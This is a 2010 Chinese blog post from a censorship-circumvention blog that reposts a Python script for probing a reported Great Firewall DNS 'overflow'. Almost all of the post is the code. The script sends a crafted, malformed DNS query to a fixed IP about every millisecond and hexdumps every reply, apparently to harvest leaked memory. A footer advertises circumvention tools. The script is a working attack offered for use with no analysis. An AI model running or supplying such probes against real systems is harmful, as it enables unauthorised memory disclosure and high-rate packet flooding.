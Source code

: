 ```yaml
---
layout: post
title:  "重新贴一下GFW溢出的Python代码"
date:   2010-10-17 19:48:02
author: GFW BLOG 功夫网
categories: program
---
```


## 重新贴一下GFW溢出的Python代码
### by GFW BLOG 功夫网
### at 2010-10-17 19:48:02
### original <http://feedproxy.google.com/~r/chinagfwblog/~3/abjLeaZXC64/gfwpython.html>

<font size="2">来源：<a href="https://1984bbs.org/viewthread.php?tid=758&amp;extra=page%3D1">https://1984bbs.org/viewthread.php?tid=758&amp;extra=page%3D1</a><br></font><h2><font size="2">重新贴一下GFW溢出的Python代码</font></h2> 						 						 																											<div><div><font size="2"><em>复制内容到剪贴板</em></font><h5><font size="2">代码:</font></h5><font size="2"><code>import socket<br>  import binascii<br> import time<br> import threading<br> <br> class DataReceiver:<br>         def __init__(self, s):<br>                 self.s = s<br>         def __call__(self):<br>                 while True:<br>                         r = s.recvfrom(65535)[0]<br>                         i = 0<br>                         while i &lt; len(r):<br>                                 print &#39;%04x:&#39; % i,<br>                                 p = list(r[i : i + 16])<br>                                 for j in range(0, len(p)):<br>                                         print binascii.b2a_hex(p[j]),<br>                                         if p[j] &lt; &#39; &#39; or p[j] &gt; &#39;~&#39;:<br>                                                 p[j] = &#39;.&#39;<br>                                 print &#39; &#39; * ((15 - j) * 3),<br>                                 print &quot;&quot;.join(p)<br>                                 i += 16<br> <br> s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)<br> threading.Thread(target = DataReceiver(s)).start()<br> while True:<br>         s.sendto(&quot;\0\0\1\0\0\1\0\0\0\0\0\0\<a href="http://6wux.ru">6wux.ru</a>\377&quot;, (&quot;98.137.149.56&quot;, 53))<br>         time.sleep(0.001)</code></font></div></div><font size="2"><br></font> <div>发一封标题为GFW的邮件到fanqiang70ma@gmail.com，就可获取翻墙利器赛风新地址。附《数字时代》赠阅版。被墙网站收集：http://delicious.com/GFWbookmark，请使用GFWlist为标签，帮助我们收集被墙网站的信息。敬请订阅GFW Blog：http://feeds2.feedburner.com/chinagfwblog，邮件订阅：https://groups.google.com/group/gfw-blog。更多翻墙工具介绍和下载：
推客浏览器（http://twitbrowser.net/blog/，墙内镜像：http://tm005.nl.am/)，Sesawe（http://www.sesawwe.net/）。翻墙互助小组邮件列表: http://groups.google.com/group/bypassgfw。<img width="1" height="1" src="https://blogger.googleusercontent.com/tracker/5500297126185736776-7969870153915712053?l=www.chinagfw.org" alt=""></div><img src="http://feeds.feedburner.com/~r/chinagfwblog/~4/abjLeaZXC64" height="1" width="1">